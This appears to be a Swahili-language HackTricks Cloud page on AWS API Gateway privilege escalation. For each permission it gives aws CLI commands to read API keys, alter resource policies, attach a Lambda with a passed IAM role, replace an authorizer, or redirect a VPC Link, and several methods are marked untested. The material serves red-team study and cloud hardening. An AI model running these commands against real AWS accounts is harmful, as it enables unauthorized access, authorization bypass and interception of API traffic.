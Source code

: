 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Kwa ruhusa hii unaweza kuunda funguo za API za APIs zilizowekwa (kwa kila eneo).
```bash
aws --region <region> apigateway create-api-key
```
**Madhara Yanayoweza Kutokea:** Huwezi kufanya privesc kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:GET`

Kwa ruhusa hii unaweza kupata funguo za API zilizozalishwa za APIs zilizowekwa (kila eneo).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Madhara Yanayoweza Kutokea:** Huwezi kufanya privesc kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Kwa ruhusa hizi inawezekana kubadilisha sera ya rasilimali ya API ili kujipatia ufikiaji wa kuitumia na kutumia ufikiaji wa uwezekano ambao API gateway inaweza kuwa nao (kama kuitisha lambda iliyo hatarini).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Wewe, kwa kawaida, huwezi kupata privesc moja kwa moja kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:PutIntegration`, `apigateway:CreateDeployment`, na `iam:PassRole` anaweza **kuongeza muunganiko mpya kwenye API Gateway REST API iliyopo kwa kutumia kazi ya Lambda ambayo ina jukumu la IAM lililounganishwa**. Mshambuliaji anaweza kisha **kuanzisha kazi ya Lambda kutekeleza msimbo wowote na kwa uwezekano kupata ufikiaji wa rasilimali zinazohusiana na jukumu la IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa rasilimali zinazohusiana na jukumu la IAM la kazi ya Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:UpdateAuthorizer` na `apigateway:CreateDeployment` anaweza **kubadilisha mthibitishaji wa API Gateway uliopo** ili kupita kwenye ukaguzi wa usalama au kutekeleza msimbo wa kawaida wakati maombi ya API yanapofanywa.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kupita mchakato wa usalama, ufikiaji usioidhinishwa wa rasilimali za API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:UpdateVpcLink` anaweza **kubadilisha VPC Link iliyopo ili kuelekeza kwenye Balancer ya Mizigo ya Mtandao tofauti, ambayo inaweza kuelekeza trafiki ya API ya kibinafsi kwa rasilimali zisizoidhinishwa au zenye uharibifu**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa rasilimali za API za kibinafsi, kukamata au kuingilia kati trafiki ya API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
